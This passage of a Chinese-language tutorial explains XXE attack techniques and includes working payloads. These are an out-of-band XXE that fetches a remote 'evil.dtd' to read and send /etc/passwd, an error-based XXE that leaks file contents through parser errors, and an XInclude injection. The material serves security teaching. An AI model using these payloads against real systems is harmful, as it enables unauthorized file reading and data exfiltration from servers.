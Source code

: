 这个 Payload 定义了一个参数实体 `xxe`，并且使得 XML Parser 获取远程的恶意 DTD，并动态执行，最后发送 `/etc/passwd`.

ps1. 如果 XML Parser 对外部实体的具体内容进行过滤，Out-Of-Band 攻击可能不一定奏效，因为一些文件里的特殊符号会触发过滤机制. 这个时候就最好使用 FTP 协议. 另外，如果文件包含**换行符**则不能被读取.

ps2. 参考文献提示可以在 DTD 中用 ` 包裹来防止 XML Parser 解析:

```xml
<!--服务端-->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///etc/passwd">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd">
%dtd; ]>

<!--all 在远程-->
<roottag>&all;</roottag>
```

```xml
<!-- eval.dtd -->
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

#### 错误信息型攻击

如果攻击者可以看见 XML Parser 返回的错误信息，则可以使用这种方法.

外部 DTD Payload:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

这个 Payload 与之前的 out-of-band 不同之处在于 `eval` 中的 `error`. 调用 `%error` 会使得 XML Parser 访问一个不存在的地址，从而引发错误，而这个错误文件的地址里包含了敏感信息.

### 0x02 寻找注入点

##### XInclude

有的时候，客户端向服务端提交数据，并嵌入到服务端的 XML 文档中，整合后再读取分析, 比如简单对象访问协议 (SOAP).

这种情况下，你不能直接修改 `DOCTYPE` 元素，经典的 XXE 攻击无法执行. 这时则需要 `XInclude` 攻击.

`XInclude` 属于 XML 的说明部分，允许 XML 文件包含其他文件，就像 php 里的 `include()`. `XInclude` 可以出现在 XML 任何地方，因此可以使用 `XInclude` 攻击。

实施一个 `XInclude` 攻击，你需要引用 `XInclude` 命名空间，并且指定你想要包含的文件地址:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
